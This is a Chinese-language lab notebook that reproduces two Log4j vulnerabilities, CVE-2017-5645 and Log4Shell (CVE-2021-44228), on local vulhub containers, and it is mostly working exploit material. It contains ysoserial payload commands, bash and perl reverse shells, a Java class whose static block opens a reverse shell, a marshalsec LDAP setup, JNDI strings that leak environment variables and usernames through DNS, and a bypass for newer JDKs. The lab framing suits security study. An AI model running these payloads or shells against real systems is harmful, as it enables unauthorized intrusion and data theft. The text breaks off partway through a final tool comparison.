# Log4j 漏洞靶场实战笔记（优化版）

> 基于 vulhub 靶场本地授权测试，完整复现 CVE-2017-5645 与 CVE-2021-44228。
> 本版整合了实战中踩过的全部坑：损坏 jar 鉴别、Java 17 不兼容、极简容器无网络工具、回连地址选择等。
>
> ⚠️ 仅限本地实验环境学习，禁止测试未授权目标。

---

## 〇、环境基线（本次实测环境）

| 角色 | 环境 | 关键信息 |
|---|---|---|
| 攻击机 | Kali Linux（默认 Java 为 OpenJDK 17） | 另装 Temurin JDK 8 至 `/opt/jdk8u504-b01` |
| 靶机 | Docker 运行 vulhub，与攻击机同一台 Kali | 用 `127.0.0.1` 打，容器回连用 docker0 网关 `172.17.0.1` |
| 5645 容器系统 | Debian 9 (stretch) 极简镜像 | **只有 bash、perl；没有 ping/wget/curl/nc** |
| 44228 容器 | Solr 8.11.0，端口 8983 | 注入点 `action` 参数（`/solr/admin/cores` 实测可用） |

工具目录：`/home/kali/Desktop/tools/`

---

## 一、工具准备（含踩坑）

### 1.1 ysoserial（打 CVE-2017-5645）

- 官方 v0.0.6 release 包 `ysoserial-all.jar` = **56.8 MB（ls -lh 显示 ≈54M）**，这是真包大小，不是网上流传的 5.8MB 小包。
- 下载：GitHub Releases 页面直接下 `ysoserial-all.jar`，不要下 Source code。
- 命令行加速（GitHub 直连被 reset 时）：

```bash
wget -O ysoserial-all.jar https://ghfast.top/https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

**完整性校验（三步缺一不可，重点教训）：**

```bash
ls -lh ysoserial-all.jar     # ≈54M
unzip -t ysoserial-all.jar | tail -1   # 必须出现 No errors detected
java -jar ysoserial-all.jar            # 打印 CommonsCollections1~7 等 gadget 列表
```

> ⚠️ `file` 命令**不可信**：文件头是 PK 魔数就报 Zip archive，截断/损坏文件也会误报。必须用 `unzip -t` 验证文件尾部中央目录。
>

### 1.2 JDK 8（关键，Kali 默认 Java 17 跑不了 ysoserial）

新版 Kali apt 源已无 openjdk-8（`Unable to locate package`）。用清华镜像装 Temurin 8：

```bash
# 先列目录拿真实文件名（镜像路径里的版本号会更新）
curl -s https://mirrors.tuna.tsinghua.edu.cn/Adoptium/8/jdk/x64/linux/ \
  | grep -o 'OpenJDK8U-jdk_x64_linux_hotspot[^"]*\.tar\.gz' | sort -u | tail -1

cd /opt
wget -O jdk8.tar.gz https://mirrors.tuna.tsinghua.edu.cn/Adoptium/8/jdk/x64/linux/OpenJDK8U-jdk_x64_linux_hotspot_8u504b01.tar.gz
tar -xzf jdk8.tar.gz
/opt/jdk8u504-b01/bin/java -version    # 1.8.0_504
```

> Java 17 直接跑 ysoserial 会报：
> `InaccessibleObjectException: module java.base does not "opens java.util" to unnamed module`
> 临时绕过可加一串 `--add-opens java.base/xxx=ALL-UNNAMED`，但不稳，**直接用 JDK 8 最省心**，后面编译 44228 恶意类也用得上。

### 1.3 marshalsec（打 CVE-2021-44228，需自行编译）

仓库无官方 release jar，必须 clone 源码后用 Maven + JDK 8 本地编译：

```bash
git clone https://ghfast.top/https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
# 产物 target/marshalsec-0.0.3-SNAPSHOT-all.jar
```

**编译"卡住"排查（实测踩坑）：** `mvn clean package -DskipTests -q` 长时间无输出，根因是**国内拉 Maven Central 依赖慢 + `-q` 静默模式掩盖了下载进度**，并非真卡死。处理四步：

```bash
# ① 先确认是否在干活：观察本地仓库是否持续增长
du -sh ~/.m2/repository        # 隔十几秒再执行一次，在涨就是在下载
ps aux | grep mvn              # 确认进程还活着

# ② 配置阿里云镜像加速（写入 ~/.m2/settings.xml）
mkdir -p ~/.m2 && cat > ~/.m2/settings.xml <<'EOF'
<settings>
  <mirrors>
    <mirror>
      <id>aliyun</id>
      <mirrorOf>central</mirrorOf>
      <name>aliyun</name>
      <url>https://maven.aliyun.com/repository/public</url>
    </mirror>
  </mirrors>
</settings>
EOF

# ③ 去掉 -q 重新编译，能看到 Downloading 进度条
mvn clean package -DskipTests
```

兜底方案：仍拉不动则把 settings.xml 里的地址换成腾讯云 `https://mirrors.cloud.tencent.com/nexus/repository/maven-public/`；或 `searchsploit marshalsec` / 网上找现成编译好的 `marshalsec-0.0.3-SNAPSHOT-all.jar`（注意来源可信度）。

### 1.4 JNDI-Injection-Exploit（一键化工具，绕高版本 JDK）

官方 release 直接提供编译好的 jar，无需编译：

```bash
wget -O JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
  https://ghfast.top/https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

unzip -t JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar | tail -1   # 同样做完整性校验
```

### 1.5 Java Chains（Web 平台化工具）

vaycore/JavaChains 项目，release 下载单 jar 后直接启动 Web 平台：

```bash
# 先去 release 页确认最新版本号：https://github.com/vulhub/java-chains/releases
wget -c -O java-chains-2.0.0-linux-amd64.tar.gz \
  https://ghfast.top/https://github.com/vulhub/java-chains/releases/download/v2.0.0/java-chains-2.0.0-linux-amd64.tar.gz

# 启动（默认 Web 端口 9090），浏览器访问 http://127.0.0.1:9090
java -jar JavaChains.jar
```

> 三个工具的对比与选型见第八章；本笔记主流程用 marshalsec（3.5），高版本绕过用 JNDI-Injection-Exploit（3.7）。

---

## 二、CVE-2017-5645（SocketServer 反序列化 RCE）

### 2.1 原理

Log4j 2.x < 2.8.2 的 `TcpSocketServer`（端口 **4712**）直接反序列化客户端 TCP 发来的日志事件对象，无任何过滤。发送 ysoserial 生成的恶意序列化数据 → RCE。依赖 classpath 存在 Commons Collections（vulhub 已内置），与 JDK 网络策略无关。

### 2.2 启动靶场

```bash
cd ~/vulhub/log4j/CVE-2017-5645
docker-compose up -d
docker ps          # PORTS 应显示 0.0.0.0:4712->4712/tcp
```



### 2.3 侦察容器环境（决定反弹姿势，必做）

```bash
docker exec -it $(docker ps -q --filter publish=4712) bash -c \
  'command -v bash wget curl nc python perl; cat /etc/os-release | head -2'
```

本靶场实测结果：Debian 9 stretch，**有 `/bin/bash`、`/usr/bin/perl`，无 ping/wget/curl/nc**。

### 2.4 验证 RCE —— 用 docker logs，不用 dnslog（本靶场的重要结论）

生成 payload 并发送：

```bash
/opt/jdk8u504-b01/bin/java -jar /home/kali/Desktop/tools/ysoserial-all.jar \
  CommonsCollections6 "ping xxxxx.dnslog.cn" > /home/kali/Desktop/tools/payload.ser

# nc 发送端本身没有任何回显，这是正常的；-q 2 表示发完 2 秒自动断开
nc -q 2 127.0.0.1 4712 < /home/kali/Desktop/tools/payload.ser
```



**不要因为 dnslog 没记录就判失败。** 开另一终端看容器日志：

```bash
docker logs --tail 30 $(docker ps -q --filter publish=4712)
```

看到以下堆栈即 RCE 已触发（命令已进入 Runtime.exec，只是程序不存在）：

```
org.apache.commons.collections.functors.InvokerTransformer.transform
...
java.io.IOException: Cannot run program "ping": error=2, No such file or directory
```



判据解读：反序列化链完整跑到了 `Runtime.exec`，漏洞利用成功；`error=2` 仅说明容器里没这个命令。这比 dnslog 更直接可靠。

> 说明：dnslog 验证法适用于"执行命令的程序在容器内存在"或"DNS 由非外部程序发起"的场景。本靶场两者都不满足（无 ping/wget），故以日志堆栈为准。**44228 的 dnslog 验证不受此影响**（JVM 自行解析 JNDI 域名，见第三章）。

### 2.5 反弹 Shell（bash /dev/tcp 方式，首选）

**终端 A —— 监听：**

```bash
nc -lvnp 4444
```

**终端 B —— 生成并发送（容器回连地址用 docker0 网关 172.17.0.1）：**

```bash
ip a show docker0 | grep inet     # 确认网关，一般 172.17.0.1

B64=$(echo -n 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1' | base64 -w0)

/opt/jdk8u504-b01/bin/java -jar /home/kali/Desktop/tools/ysoserial-all.jar \
  CommonsCollections6 "bash -c {echo,$B64}|{base64,-d}|{bash,-i}" \
  > /home/kali/Desktop/tools/shell.ser

nc -q 2 127.0.0.1 4712 < /home/kali/Desktop/tools/shell.ser
```

base64 包装是为了绕过 `Runtime.exec` 对 `>&`、空格的分词问题。



### 2.6 保底：perl 反弹（bash 方式失败时，零外部依赖）

容器确认有 `/usr/bin/perl`，IO::Socket 为标准模块：

```bash
B64=$(echo -n 'perl -e '"'"'use Socket;$i="172.17.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");'"'"'' | base64 -w0)

/opt/jdk8u504-b01/bin/java -jar /home/kali/Desktop/tools/ysoserial-all.jar \
  CommonsCollections6 "bash -c {echo,$B64}|{base64,-d}|{bash,-i}" \
  > /home/kali/Desktop/tools/shell-perl.ser

nc -q 2 127.0.0.1 4712 < /home/kali/Desktop/tools/shell-perl.ser
```

### 2.7 拿到 shell 后

```bash
id          # uid=0(root)（容器内 root）
hostname    # 容器 ID
```

链不通用时依次换：`CommonsCollections5` → `CommonsCollections2` → `CommonsCollections4`。



---

## 三、CVE-2021-44228（Log4Shell JNDI 注入 RCE）

### 3.1 原理

Log4j 2.0-beta9 ~ 2.14.1 解析日志中的 `${...}` Lookup 表达式。用户输入进日志即触发 `${jndi:ldap://...}`：JVM 主动连攻击者 LDAP → 获得指向 HTTP 恶意类的 Reference → 下载加载并执行静态代码块 → RCE。

### 3.2 启动靶场

```bash
cd ~/vulhub/log4j/CVE-2021-44228
docker-compose up -d
docker ps    # 端口 8983
```



### 3.3 dnslog 验证（本漏洞保留此法，有效）

#### 3.3.1 基础连通性验证

与 5645 不同，这里的 DNS 查询由 **JVM 的 JNDI 模块自己发起**，不依赖容器里有无 ping，所以稳定有效：

```bash
# bash 中 ${} 必须转义为 \${}，否则被本地 shell 吃掉；-g 关闭 curl 的 URL globbing
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://xxxxx.dnslog.cn/exp}"
```

dnslog.cn 刷新收到解析记录 → 漏洞确认。

#### 3.3.2 进阶：利用嵌套 Lookup 外带 Java 版本等系统信息

Log4j 的 Lookup 机制支持**嵌套变量解析**，可以在 JNDI URL 中嵌入 `${sys:xxx}`、`${env:xxx}`、`${java:xxx}` 等表达式，让目标服务器在发起 DNS 请求时把对应值作为子域名带出来，实现**无回显信息探测**。

**外带 Java 版本（实测可用）：**

```bash
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://\${java:version}.hz3tdv.dnslog.cn/exp}"
```





**常用可外带的变量一览：**

| 表达式 | 含义 | 示例外带值 |
|---|---|---|
| `${java:version}` | Java 运行时版本 | `Java_1.8.0_181` |
| `${java:os}` | 操作系统信息 | `Linux-amd64` |
| `${java:vm}` | JVM 实现 | `OpenJDK_64-Bit_Server_VM` |
| `${java:vendor}` | JVM 厂商 | `Oracle_Corporation` |
| `${sys:java.version}` | 系统属性 java.version | `1.8.0_181` |
| `${sys:os.name}` | 系统属性 os.name | `Linux` |
| `${sys:user.name}` | 当前用户名 | `root` / `solr` |
| `${sys:user.dir}` | 工作目录 | `/opt/solr/server` |
| `${env:JAVA_HOME}` | 环境变量 JAVA_HOME | `/usr/lib/jvm/java-8-openjdk-amd64` |
| `${env:HOSTNAME}` | 容器主机名 | `c4e7a8f2b9d1` |
| `${env:PATH}` | PATH 环境变量 | `/usr/local/sbin:/usr/local/bin:...` |

**注意事项：**

- `${java:xxx}` 是 Log4j 内置的 JavaLookup，直接取 JVM 标准属性
- `${sys:xxx}` 取任意 JVM 系统属性（System.getProperty）
- `${env:xxx}` 取操作系统环境变量（System.getenv）
- **外带值会被 Log4j 做 URL 编码**，空格会变成下划线 `_` 或 `%20`，拿到后手动还原
- 变量名中的点号 `.` 在 DNS 子域名中是合法的，所以 `1.8.0_181` 这种带点的值能直接透出
- 如果外带值含特殊字符（如 `/`、`:`、`;`）会导致 DNS 域名非法，请求失败——这种情况下外带值不可用，但漏洞本身仍然存在

**批量探测示例（一次发多条）：**

```bash
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://ver-\${java:version}.hz3tdv.dnslog.cn/a}"
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://os-\${java:os}.hz3tdv.dnslog.cn/b}"
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://user-\${sys:user.name}.hz3tdv.dnslog.cn/c}"
```

前缀（`ver-`、`os-`、`user-`）的作用是在 dnslog 记录里区分多个外带值，否则多条结果混在一起难以对应。拿到 Java 版本后，可据此判断是 8u191 以下（直接打 marshalsec）还是 8u191+（需 JNDI-Injection-Exploit / Java Chains 本地 Gadget 绕过）。

### 3.4 编写并编译恶意类（用 JDK 8）

```java
// Exploit.java
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec(
                new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"}
            );
        } catch (Exception e) {}
    }
}
```

```bash
# 用安装好的 JDK 8 编译（本身就是 8，无需 --release）
/opt/jdk8u504-b01/bin/javac Exploit.java
# 若用系统 Java 17，则必须：javac --release 8 Exploit.java，否则靶机报 Unsupported major.minor version
```



### 3.5 搭建攻击设施（三个终端）

```bash
# 终端 A：HTTP 托管恶意类（在 Exploit.class 所在目录）
python3 -m http.server 8888

# 终端 B：LDAP 引用服务器
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar \
  marshalsec.jndi.LDAPRefServer "http://172.17.0.1:8888/#Exploit"
# 注意：marshalsec 监听在 Kali 宿主机，端口 1389；#Exploit 对应类名

# 终端 C：反弹监听
nc -lvnp 4444
```

> IP 选择：marshalsec 与 HTTP 服务都在 Kali 宿主机，给容器返回的地址用容器可达地址。同机部署用 docker0 网关 `172.17.0.1` 最稳；若靶场在另一台机器则填攻击机局域网 IP。

### 3.6 发送 payload（终端 D）

```bash
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://172.17.0.1:1389/Exploit}"
```

终端 C 收到 shell，`id` / `hostname` 验证。



### 3.7 高版本 JDK 绕过

目标 JDK ≥ 8u191（`trustURLCodebase=false`）拒绝远程类加载时，用 JNDI-Injection-Exploit 的本地 Gadget（BeanFactory 等）：

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
  -C "bash -c {echo,<反弹命令base64>}|{base64,-d}|{bash,-i}" \
  -A 172.17.0.1
# 用其输出的 LDAP 链接替换 3.6 payload 中的地址
```



---

## 四、两漏洞对比速查

| 对比项 | CVE-2017-5645 | CVE-2021-44228 |
|---|---|---|
| 类型 | Java 反序列化 | JNDI 注入 |
| 入口 | 直连 4712 TCP | 写进日志的用户输入（HTTP 参数） |
| payload | 二进制序列化数据（ysoserial） | `${jndi:ldap://...}` 文本 |
| 核心工具 | ysoserial + nc | marshalsec + HTTP + nc |
| 依赖 | classpath 有 Commons Collections | Log4j 2.0-beta9~2.14.1 |
| JDK 限制 | 无 | ≥8u191 需本地 Gadget 绕过 |
| 成功判据 | **docker logs 出现 InvokerTransformer/Runtime.exec** | dnslog 解析记录 / LDAP 回连 |
| dnslog 验证 | 本靶场不适用（容器无 ping/wget） | 适用（JVM 自行解析域名） |
| 端口 | 4712 | 8983 |

---

## 五、常用命令速查

```bash
# 找映射某端口的容器
docker ps -q --filter publish=4712

# 实时看容器日志（边发 payload 边看）
docker logs -f $(docker ps -q --filter publish=4712)

# 进容器侦察可用命令
docker exec -it $(docker ps -q --filter publish=4712) bash -c 'command -v bash perl nc wget curl'

# docker0 网关 IP（容器回连宿主机地址）
ip a show docker0 | grep inet

# JDK8 运行 ysoserial 生成 payload
/opt/jdk8u504-b01/bin/java -jar ysoserial-all.jar CommonsCollections6 '<命令>' > p.ser

# 发送（自动断开）
nc -q 2 127.0.0.1 4712 < p.ser

# 反弹监听
nc -lvnp 4444

# 本地抓 JNDI 回连（验证漏洞，不依赖 dnslog）
nc -lvnp 1389
curl -g "http://127.0.0.1:8983/solr/admin/cores?action=\${jndi:ldap://172.17.0.1:1389/exp}"
```

---

## 六、清理

```bash
cd ~/vulhub/log4j/CVE-2017-5645 && docker-compose down
cd ~/vulhub/log4j/CVE-2021-44228 && docker-compose down
```

---

## 七、总结：三种 JNDI 攻击工具对比（marshalsec / JNDI-Injection-Exploit / Java Chains）

三种工具都是打 **CVE-2021-44228 这类 JNDI 注入**的利器，本质都是"让目标 JVM 连上一个恶意 LDAP/RMI 服务，再喂给它可执行的东西"，区别在于**对抗目标 JDK 版本的能力**和**操作方式**。

### 7.1 marshalsec —— 原理级工具（本笔记 3.5 用它实操）

| 维度 | 说明 |
|---|---|
| 定位 | 经典 LDAP/RMI **引用服务器**（Reference 攻击的发明者） |
| 原理 | LDAP 返回 Reference → 目标从攻击者 HTTP 下载恶意类并加载执行 |
| 部署 | 需 JDK8 + Maven 自行编译，无官方 release jar |
| 配套 | 还要自己写/编译 Exploit.java、另开 HTTP 服务托管，共 3~4 个终端 |
| JDK 限制 | **仅 JDK < 8u191 有效**；8u191+ 拒绝远程类加载直接失效 |

**优点**：链路每一步都自己搭，攻击流程看得清清楚楚，学原理/写报告的最佳选择。
**局限**：只做引用攻击这一件事，高版本 JDK 下完全无能为力。

### 7.2 JNDI-Injection-Exploit —— 一键化工具（本笔记 3.7 用它绕高版本）

| 维度 | 说明 |
|---|---|
| 定位 | 一体化 JNDI 利用平台，一个 jar 自动起 LDAP/RMI/HTTP 全套服务 |
| 原理 | 自动生成多条可用链：**引用攻击** + **本地 Gadget**（Tomcat BeanFactory、JDK7u21 等） |
| 部署 | 单 jar 运行，`-C` 传命令 `-A` 传回连地址，输出多条候选 JNDI 链接逐个试 |
| JDK 限制 | 高版本 JDK 走 **本地 Gadget 绕过**（目标 classpath 里自带组件，不联网加载类） |

**优点**：一键起服务省去多终端；内置绕过 8u191+ 的本地利用，覆盖面远大于 marshalsec。
**局限**：本地 Gadget 依赖目标环境 classpath 恰好有可用组件（Tomcat/Spring 等）；纯 JDK 裸奔的高版本环境仍可能全军覆没；命令行传参，交互/后渗透能力弱。

### 7.3 Java Chains（JavaChains）—— 新一代平台化工具

| 维度 | 说明 |
|---|---|
| 定位 | Web 界面化的 JNDI 利用平台，LDAP/RMI 服务端 + payload 工厂 + 内存马生成 |
| 原理 | 覆盖全部利用路径：引用攻击、序列化 Gadget、**base64 远程类加载**、本地 Gadget 绕过，可视化组合 |
